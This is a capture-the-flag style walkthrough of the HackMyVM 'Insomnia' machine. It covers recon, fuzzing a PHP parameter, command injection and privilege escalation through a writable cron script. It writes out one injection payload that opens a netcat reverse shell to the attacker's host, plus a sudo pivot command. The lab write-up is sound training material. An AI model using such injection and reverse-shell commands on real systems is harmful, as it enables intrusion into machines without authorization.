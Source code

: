 +++
title = "Insomnia"
date = 2024-02-07T19:41:10-06:00
summary="Another machine by sml"
draft=false
tags=["pentesting","hackmyvm","easy","RCE","php","fuzzing"]
series=["Hackmyvm Easy"]
series_order=5
+++
## Foreword
Just started classes again, so the page might be updated less often, in the machines section at least. Once again, thanks for your time if you're reading this. :)
## Machine info
| Name       | Insomnia                                                         | 
| ---------- | ---------------------------------------------------------------- |
| Author     | alienum                                                                 |
| Site       | [hackmyvm](https://hackmyvm.eu/machines/machine.php?vm=Insomnia) |
| Difficulty | Easy                                                                 |

## Recon

We run our NMAP scan:

![](imagenes/Pasted%20image%2020240207195749.png)

**Note: Power went out when I was trying to solve this machine, and had to re-add it to virtual box in order to work properly again, so, instead of .24 at the end of the IP address, you'll now see .25**

Lets check the webpage:

![](imagenes/Pasted%20image%2020240207201941.png)

A chat webpage, lets check its source:

![](imagenes/Pasted%20image%2020240207202031.png)

Here we have the script in *javascript* that runs the chat session, we may be able to use *XSS* in this machine, but beforehand, lets try enumerating the webpage.

![](imagenes/Pasted%20image%2020240207202806.png)

Interesting, lets check each one of these files on the webpage:

### chat.txt

![](imagenes/Pasted%20image%2020240207202846.png)

A log of the chat, lets keep checking.

### administration.php

![](imagenes/Pasted%20image%2020240207203031.png)

Apparently, we can **call** a file here, but, we don't know the variable name that's being used, so, we're going to do some fuzzing with gobuster, and find out the correct variable name with this command: `gobuster fuzz -u http://192.168.25.25:8080/administration.php?FUZZ=prueba -w /usr/share/seclists/Discovery/Web-Content/common.txt --exclude-length 65
`
![](imagenes/Pasted%20image%2020240207203709.png)

Nice, we found the variable name, lets check the webpage:

![](imagenes/Pasted%20image%2020240207203848.png)

That's good, here we can see the message we typed earlier, lets try and see if we can execute some commands.

![](imagenes/Pasted%20image%2020240207204758.png)

We don't know specifically what the php script does, we can suppose it uses `cat <file>` with `system("cmd")` or something like that. Now, lets try the following command to see if we can get a reverse shell `abc;nc -e /bin/bash 192.168.25.5 4444`

## Initial access

![](imagenes/Pasted%20image%2020240207205056.png)

There we go, first things first, lets get a full tty:

![](imagenes/Pasted%20image%2020240207205301.png)

We find the user flag, now lets see how we can pivot to another user, or escalate privileges:

![](imagenes/Pasted%20image%2020240207205430.png)

Interesting, lets see that the script does:

![](imagenes/Pasted%20image%2020240207205615.png)

Checking the help page:

![](imagenes/Pasted%20image%2020240207205629.png)

This php command starts the webserver in port 8080, but, it does it via the `bash terminal`, so, maybe we can replace the contents and just execute a bash shell, with the privileges of the user `julia`.

***
### Note: Troubleshoothing
At this point, I couldn't edit the file with `echo`, I got the following error `bash: echo: write error: No space left on device`, so, in order to fix that, I had to *resize the machine virtual disk* so it could work again, please do note, that if you do this after you run the machine once, it might break it,in my case, it just wouldn't show me the webpage, so you'll have to import the machine again, so, if you're following this walkthrough, **I recommend resizing this machine's disk beforehand. Now, lets keep going**.
***
![](imagenes/Pasted%20image%2020240207212415.png)

Good, lets check the script again:

![](imagenes/Pasted%20image%2020240207212447.png)

Now, lets try to run it as `julia` using `sudo -u julia /bin/bash /var/www/html/start.sh`:

## Privilege Escalation

![](imagenes/Pasted%20image%2020240207212742.png)

We're in as `julia`, lets see what we can do:

![](imagenes/Pasted%20image%2020240207212912.png)

We find this interesting script in `/etc/crontab`, lets check what it does:

![](imagenes/Pasted%20image%2020240207213059.png)

It seems all it does it check if some service is active, and if it isn't running, it starts it. Lets check the privileges of this file:

![](imagenes/Pasted%20image%2020240207213159.png)

Jackpot, lets edit this file with a payload, so it sends a root session to our machine:

![](imagenes/Pasted%20image%2020240207213436.png)

![](imagenes/Pasted%20image%2020240207213614.png)

As we enter this command, we get this in our listener:

![](imagenes/Pasted%20image%2020240207213651.png)

We get root, lets get that flag, and finish this machine:

![](imagenes/Pasted%20image%2020240207213853.png)

Thanks your time and good luck in future machines!

## Things I learned from this machine
- When encountering `php` file, try fuzzing for variables, they may call for certain files using the php script, allowing us to make use of **remote command execution** for initial access.
- Resize virtual machines virtual disk if I find `bash: echo: write error: No space left on device` again.

